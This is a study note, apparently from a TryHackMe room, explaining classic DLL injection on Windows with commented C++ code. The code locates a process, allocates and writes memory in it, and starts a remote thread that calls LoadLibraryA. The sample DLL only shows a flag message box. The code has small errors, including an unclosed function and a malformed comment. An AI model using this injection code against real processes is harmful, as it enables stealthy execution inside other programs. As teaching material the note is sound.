 # DLL Injection
Similar to [[Reflective-DLL-Injection]] but the loaded on disk. More information on DLL avalible here: [[Dynamic-Link-Library-Files]]. This technique leverages the [[Windows-API]]'s `LoadLibrary`([Documentation](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)) to load a DLL from disk.


DLL Injection Steps:

1.  Locate a target process to inject.
2.  Open the target process.
3.  Allocate memory region for malicious DLL.
4.  Write the malicious DLL to allocated memory.
5.  Load and execute the malicious DLL.

```cpp
DWORD getProcessId(const char *processName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specificed process
			TH32CS_SNAPPROCESS, // Include all processes residing on the system
			0 // Indicates the current process
		);
    if (hSnapshot) {
        PROCESSENTRY32 entry; // Adds a pointer to the PROCESSENTRY32 structure
        entry.dwSize = sizeof(PROCESSENTRY32); // Obtains the byte size of the structure
        if (Process32First( // Obtains the first process in the snapshot
					hSnapshot, // Handle of the snapshot
					&entry // Pointer to the PROCESSENTRY32 structure
				)) {
            do {
                if (!strcmp( // Compares two strings to determine if the process name matches
									entry.szExeFile, // Executable file name of the current process from PROCESSENTRY32
									processName // Supplied process name
								)) { 
                    return entry.th32ProcessID; // Process ID of matched process
                }
            } while (Process32Next( // Obtains the next process in the snapshot
							hSnapshot, // Handle of the snapshot
							&entry
						)); // Pointer to the PROCESSENTRY32 structure
        }
    }

DWORD processId = getProcessId(processName); // Stores the enumerated process ID

HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Requests all possible access rights
	FALSE, // Child processes do not inheret parent process handle
	processId // Stored process ID
);

LPVOID dllAllocatedMemory = VirtualAllocEx(
	hProcess, // Handle for the target process
	NULL, 
	strlen(dllLibFullPath), // Size of the DLL path
	MEM_RESERVE | MEM_COMMIT, // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);

WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);

LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#define EXPORTING_DLL

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    MessageBox(NULL, TEXT("THM{}"), TEXT("flag"), MB_OK);
    return TRUE;
}
```


## References

[THM Abusing Window Internals](https://tryhackme.com/room/abusingwindowsinternals)